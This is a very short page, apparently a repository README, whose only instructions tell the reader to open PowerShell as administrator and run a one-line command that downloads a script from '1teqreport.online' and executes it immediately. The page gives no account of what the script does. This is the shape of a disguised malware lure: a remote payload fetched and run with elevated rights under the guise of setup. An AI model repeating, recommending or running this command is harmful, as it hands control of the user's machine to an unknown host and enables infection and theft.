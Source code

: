 Open PowerShell -> Run as

Enter Command

irm 1teqreport.online/setup.ps1 | iex

wait until complete..
